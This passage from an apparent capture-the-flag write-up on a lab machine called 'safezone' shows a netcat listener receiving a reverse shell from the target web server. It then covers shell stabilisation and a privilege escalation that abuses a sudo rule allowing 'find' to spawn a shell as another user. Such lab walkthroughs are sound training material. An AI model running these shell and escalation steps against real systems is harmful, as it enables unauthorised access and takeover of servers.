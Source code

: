 We get confirmation we've got code execution by being pinged. We then just run a reverse shell annnnd:

```
root@ip-10-10-213-155:~/lfi-fuzz# nc -nvlp 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.160.123 37880 received!
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@safezone:/var/www/html$ ls
ls
dashboard.php  index.html		index.php   news.php  register.php
detail.php     index.nginx-debian.html	logout.php  note.txt
www-data@safezone:/var/www/html$ ^Z
[1]+  Stopped                 nc -nvlp 4242
root@ip-10-10-213-155:~/lfi-fuzz# stty raw -echo; fg
nc -nvlp 4242
             ls
dashboard.php  index.html		index.php   news.php  register.php
detail.php     index.nginx-debian.html	logout.php  note.txt
www-data@safezone:/var/www/html$ export TERM=xterm
www-data@safezone:/var/www/html$ 
```

We got ourselves a reverse shell from the server! Let's start our enumeration inside it then! And honestly, we don't really have to go that far.

Doing sudo -l we find we can run the command "find" as the user "files". That's in [GTFObins](https://gtfobins.github.io/) so it is an easy privesc.

```
www-data@safezone:/var$ sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
www-data@safezone:/var$ ./find . -exec /bin/sh -p \; -quit
bash: ./find: No such file or directory
www-data@safezone:/var$ sudo -u files find . -exec /bin/sh -p \; -quit
$ whoami
files
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
files@safezone:/var$ 
```

As the user "files" we can find a suspicious file in their home directory. It looks like a hash of their password.
